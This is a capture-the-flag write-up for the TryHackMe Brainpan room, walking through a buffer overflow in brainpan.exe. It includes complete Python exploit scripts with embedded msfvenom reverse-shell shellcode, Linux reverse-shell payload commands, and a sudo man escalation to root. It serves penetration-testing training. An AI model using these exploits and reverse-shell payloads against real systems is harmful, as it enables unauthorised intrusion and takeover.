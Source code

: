 ```yaml
---

title: Box - Brainpan1
published: true
---
```


Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.

[https://tryhackme.com/room/brainpan](https://tryhackme.com/room/brainpan)

![](/assets/brainpan01.jpg)

* * *

## Task 1 - Deploy and compromise the machine 

> Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 

##  Nmap Scan

| PORT | STATE | SERVICE | REASON |
|------|-------|---------|--------|
| 9999/tcp | open | abyss | syn-ack ttl 61 |
| 10000/tcp | open | snet-sensor-mgmt SimpleHTTPServer 0.6 (Python 2.7.3) | syn-ack ttl 61 |

* * * 

##  Port 9999

- brainpan program needs password to continue can connect to this with netcat

* * * 

##  Port 10000

- SimpleHTTPServer 0.6 (Python 2.7.3)
- ``gobuster dir -u http://10.10.100.24:10000/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x html,php,txt --no-error -t 100``
- in /bin we find brainpan.exe

* * * 

##  Buffer Overflow

- Open brainpan.exe in immunity and set working folder
- ``!mona config -set workingfolder c:\mona\%p``
- We can send through 5000 a's with our a.py ``print("A" *5000)``
- We have an EBP and EIP overwrite so we should be able to overflow the buffer and and ECX Shitstorm!?

![](/assets/brainpan02.png)

- Finding the offset
- ``msf-pattern_create -l 5000`` and send and note the EIP "35724134"

![](/assets/brainpan03.png)

- ``msf-pattern_offset -l 5000 -q 35724134``
- we have an exact match at offset 524
- Now we can edit our code to send payloads so we can find badchars.

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP as its overwritten with our B's 42424242
- now we can find the badchars
- create bytearray in immunity ``!mona bytearray -b "\x00"`` and update our code with badchars variable

```shell
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- restart brainpan in immunity and run exploit again and note the address that ESP registers
- **0022F930**
- run memory comparison in mona ``!mona compare -f C:\mona\brainpan\bytearray.bin -a 0022F930``
- we dont seen to have any badchars the shellcode returns Unmodified...

- try to find jump point with our badchars
- ``!mona jmp -r esp -cpb "\x00``

![](/assets/brainpan04.png)

- 311712F3 Jump Point
- Convert to little endian ``\xf3\x12\x17\x31``
- Generate shellcode with badchars... since this is a linux machine try linux shellcode? and try on target?
- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f c``
- update target IP and little endian and shellcode and lets see what happens

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"\xf3\x12\x17\x31" + b"\x90" * 32
shellcode = (b"\xb8\xea\xb3\xa8\x25\xdb\xd9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
b"\x52\x83\xea\xfc\x31\x42\x0e\x03\xa8\xbd\x4a\xd0\xd0\x2a\x08"
b"\x1b\x28\xab\x6d\x95\xcd\x9a\xad\xc1\x86\x8d\x1d\x81\xca\x21"
b"\xd5\xc7\xfe\xb2\x9b\xcf\xf1\x73\x11\x36\x3c\x83\x0a\x0a\x5f"
b"\x07\x51\x5f\xbf\x36\x9a\x92\xbe\x7f\xc7\x5f\x92\x28\x83\xf2"
b"\x02\x5c\xd9\xce\xa9\x2e\xcf\x56\x4e\xe6\xee\x77\xc1\x7c\xa9"
b"\x57\xe0\x51\xc1\xd1\xfa\xb6\xec\xa8\x71\x0c\x9a\x2a\x53\x5c"
b"\x63\x80\x9a\x50\x96\xd8\xdb\x57\x49\xaf\x15\xa4\xf4\xa8\xe2"
b"\xd6\x22\x3c\xf0\x71\xa0\xe6\xdc\x80\x65\x70\x97\x8f\xc2\xf6"
b"\xff\x93\xd5\xdb\x74\xaf\x5e\xda\x5a\x39\x24\xf9\x7e\x61\xfe"
b"\x60\x27\xcf\x51\x9c\x37\xb0\x0e\x38\x3c\x5d\x5a\x31\x1f\x0a"
b"\xaf\x78\x9f\xca\xa7\x0b\xec\xf8\x68\xa0\x7a\xb1\xe1\x6e\x7d"
b"\xb6\xdb\xd7\x11\x49\xe4\x27\x38\x8e\xb0\x77\x52\x27\xb9\x13"
b"\xa2\xc8\x6c\xb3\xf2\x66\xdf\x74\xa2\xc6\x8f\x1c\xa8\xc8\xf0"
b"\x3d\xd3\x02\x99\xd4\x2e\xc5\xac\x2a\x4f\xf4\xd9\x28\xaf\xe7"
b"\x45\xa4\x49\x6d\x66\xe0\xc2\x1a\x1f\xa9\x98\xbb\xe0\x67\xe5"
b"\xfc\x6b\x84\x1a\xb2\x9b\xe1\x08\x23\x6c\xbc\x72\xe2\x73\x6a"
b"\x1a\x68\xe1\xf1\xda\xe7\x1a\xae\x8d\xa0\xed\xa7\x5b\x5d\x57"
b"\x1e\x79\x9c\x01\x59\x39\x7b\xf2\x64\xc0\x0e\x4e\x43\xd2\xd6"
b"\x4f\xcf\x86\x86\x19\x99\x70\x61\xf0\x6b\x2a\x3b\xaf\x25\xba"
b"\xba\x83\xf5\xbc\xc2\xc9\x83\x20\x72\xa4\xd5\x5f\xbb\x20\xd2"
b"\x18\xa1\xd0\x1d\xf3\x61\xf0\xff\xd1\x9f\x99\x59\xb0\x1d\xc4"
b"\x59\x6f\x61\xf1\xd9\x85\x1a\x06\xc1\xec\x1f\x42\x45\x1d\x52"
b"\xdb\x20\x21\xc1\xdc\x60")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.77.70',9999))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

* * * 

##   Answer the questions below

**Gain initial access**

![](/assets/brainpan05.png) 

**Escalate your privileges to root.**

- generate new linux shellcode and send
- ``msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.x.x.x LPORT=9999 -f c -a x86 --platform linux -b "\x00"``
- upgrade shell 

```shell
python -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm 
```

- sudo -l gives us ``/home/anansi/bin/anansi_util`` which lets us run man as sudo
- https://gtfobins.github.io/gtfobins/man/#sudo
- break out with a root shell!

![](/assets/brainpan07.png)

* * * 